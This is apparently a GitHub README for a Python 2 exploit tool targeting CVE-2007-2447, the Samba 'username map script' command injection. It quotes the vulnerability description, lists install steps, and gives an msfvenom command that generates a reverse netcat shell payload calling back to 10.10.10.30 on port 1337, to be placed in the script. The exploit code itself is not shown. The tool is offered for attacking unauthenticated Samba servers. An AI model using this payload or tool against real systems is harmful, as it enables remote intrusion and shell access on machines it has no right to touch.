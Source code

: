 # smb-usermap-destroyer
Smb Usermap Destoyer is a python2 exploit for 𝗖𝗩𝗘-𝟮𝟬𝟬𝟳-𝟮𝟰𝟰𝟳 ('𝗨𝘀𝗲𝗿𝗻𝗮𝗺𝗲' 𝗺𝗮𝗽 𝘀𝗰𝗿𝗶𝗽𝘁 𝗖𝗼𝗺𝗺𝗮𝗻𝗱 𝗘𝘅𝗲𝗰𝘂𝘁𝗶𝗼𝗻).
I created my own python script to automate the attack and avoid the exploitation with msfconsole.

𝗢𝗳𝗳𝗶𝗰𝗶𝗮𝗹 𝗱𝗲𝘀𝗰𝗿𝗶𝗽𝘁𝗶𝗼𝗻 𝗼𝗳 𝘃𝘂𝗹𝗻𝗲𝗿𝗮𝗯𝗶𝗹𝗶𝘁𝘆:

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! (source: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script).


𝗕𝗲𝗳𝗼𝗿𝗲 𝘂𝘀𝗲 𝘁𝗵𝗲 𝗲𝘅𝗽𝗹𝗼𝗶𝘁 𝗶𝗻𝘀𝘁𝗮𝗹𝗹 𝘁𝗵𝗲 𝗳𝗼𝗹𝗹𝗼𝘄𝗶𝗻𝗴 𝗿𝗲𝗾𝘂𝗶𝗿𝗲𝗺𝗲𝗻𝘁𝘀:

➡ Install python2:
    apt install python

➡ Install pip:
    apt install python-pip (If you can't find python-pip package try donwload pip insytaller from: https://bootstrap.pypa.io/get-pip.py).

➡ Install with pip the pysmb implementation:
    pip install --user pysmb


𝗦𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 𝗴𝗲𝗻𝗲𝗿𝗮𝘁𝗶𝗼𝗻 𝗮𝗻𝗱 𝗰𝗼𝗻𝗳𝗶𝗴𝘂𝗿𝗮𝘁𝗶𝗼𝗻:

• Create your own Shellcode with your host and port:
    
𝗺𝘀𝗳𝘃𝗲𝗻𝗼𝗺 -𝗽 𝗰𝗺𝗱/𝘂𝗻𝗶𝘅/𝗿𝗲𝘃𝗲𝗿𝘀𝗲_𝗻𝗲𝘁𝗰𝗮𝘁 𝗟𝗛𝗢𝗦𝗧=𝟭𝟬.𝟭𝟬.𝟭𝟬.𝟯𝟬 𝗟𝗣𝗢𝗥𝗧=𝟭𝟯𝟯𝟳 -𝘃 𝘀𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 -𝗳 𝗽𝘆𝘁𝗵𝗼𝗻
    
• Then repllace the default.
